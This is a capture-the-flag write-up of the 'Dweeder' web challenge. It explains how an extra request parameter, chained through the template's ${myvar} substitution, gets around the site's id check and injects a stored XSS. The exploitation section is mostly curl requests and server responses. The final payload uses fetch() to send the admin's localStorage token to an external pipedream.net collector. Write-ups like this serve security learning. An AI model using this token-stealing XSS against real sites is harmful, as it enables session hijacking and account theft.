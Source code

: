 Dweeder - KipodAfterFree

# Understanding
Users are allowed to compose titles and contents and submit them to the server. When @shuky is used, the admin will visit the new submissions and check them out. If the site does not sanitize the user inputs properly, malicious scripts can be injected and executed. 

When a user click on the ``send Dweed!`` button, sendDweed() is invoked and the following function is involved:
```javascript
# This function sends a json query to the dweed server. The query is of a json type, consisting of the following parameters: token, title, contents. Two of the parameters, without doubts, are under user's controls (i.e., title, contents). Upon success, the server returns a dweed id, and the function redirects the user to a new url with respect to the dweed id.
function writeDweed() {
    API.call("dweeder", "writeDweed", {
        token: window.localStorage.getItem("token"),
        title: UI.read("write-title"),
        contents: UI.read("write-contents")
    }).then((id) => {
        window.location = "?dweed=" + id;
    }).catch(alert);
}
```

When a dweed is rendered, either by listener or an explicit click on the Feed menu, the following functions are involved:
```javascript
# readDweed is called to obtain a dweed info from the server
function readDweed(id) {
    return new Promise((resolve, reject) => {
        API.call("dweeder", "readDweed", {
            token: window.localStorage.getItem("token"),
            id: id
        }).then((dweed) => {
            ...
            resolve(dweed);
        }).catch(reject);
    });
}
# then insertDweed is called to validate a dweed id before writing the dweed back into the HTML template
function insertDweed(dweed) {
    ...
    // Make sure id is valid
    if (dweed.id.length > 28)
        return;
    for (let char of dweed.id)
        if ("0123456789 abcdefghijklmnopqrstuvwxyz ABCDEFGHIJKLMNOPQRSTUVWXYZ !@#$%^&*()_-+={}|".includes(char) === false)
            return;
    // Add the dweed
    UI.find("dweeds").appendChild(UI.populate(template, dweed));
}
```
While populating the dweed, all user-supplied parameters are iterated and are replaced with their values. At the same time, their contents are also sanitized:
```javascript
static populate(template, parameters = {}) {
  ...
  // Sanitize value using the default HTML sanitiser of the target browser
  let sanitizer = document.createElement("p");
  sanitizer.innerText = value;
  value = sanitizer.innerHTML;
}
```

# Enumerating

After a few submissions, we can observe that the two parameters (i.e., title and contents) are properly filtered not only on the server side, but also on the client side (by the HTML sanitiser).

However, the server allows us to create new parameters, which can help us by pass the sanitization on the server side. Let's check this out:
```bash
# 1st attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"313630353134353638306f676771","status":true} # Server responses

curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&id=313630353134353638306f676771" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?readDweed
{"result":{"title":"a","contents":"a","time":"01:48","handle":"test213"},"status":true} # Server responses

# 2nd attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&myvar=a" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"313630353134353939396e70326e","status":true}

curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&id=3136303531343638333436366d64" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?readDweed
{"result":{"title":"a","contents":"a","myvar":"ajavascript:alert(1)\"","time":"02:07","handle":"test213"},"status":true}

# 3rd attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=ajavascript:alert(1)\"" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531343730333175707a74","status":true}

```
From the 1st attemp, we knew all the parameters that the server is expecting
From the 2nd attempt, we observed that the server allows creation of new parameters
From the 3rd attempt, we knew that the id parameter is not properly sanitized on the server side. Strangely enough, we could have still visited the dweed using the numeric ID provided by the server. This gave us another hint: server actually uses two types of ID for a dweed, but for what purpose then? 

# Exploiting
The 3rd attempt told us that we needed to look into the id field. We tried to inject code into the id parameter to close the double quote.
```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=\"" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531343736343936676d33","status":true}
```
However, visiting the dweed renders nothing at this time. This was because the check within the insertDweed() found out that there was an illegal character "\" in the id's value, so it immediately returned. Fortunately, we could craft an id's value like this ``\${myvar}`` which passed the check. Note that we need to escape the dollar sign.

Since the server allows new parameter creation, and since ``$myvar`` shall be updated during the template's population after the id validation, we chained them together to get a new effective id. If ``${myvar}`` can be replaced with \" then we can indirectly assign ${id} = \". Let's see:

```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=\${myvar}&myvar='\" tabindex=1 onfocus=\"alert(1)\" autofocus " -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531353834353431386f30","status":true}
```
Using Chrome, we immediately saw the pop-up. Chrome automatically applies focus on the div with highest priority (1). It was not clear why this pop-up was not shown in Firefox, which requires user to click on the div area. Next, we changed the alert(1) to malicious code that fetches victim token.

```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=@shuky&id=\${myvar}&myvar='\" tabindex=1 onfocus=\"fetch('https://3b33c4880500a943a57f89f4574b6024.m.pipedream.net/?token='%2BlocalStorage.getItem('token'))\" autofocus " -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531363031373273703868","status":true}
```
Decoding the victim token, we obtained the flag:{"expiry":null,"content":{"name":"KAF{_w3ll_th4t5_wh4t_b4d_c0d3_l00k5_l1ke}","handle":"shuky"}}



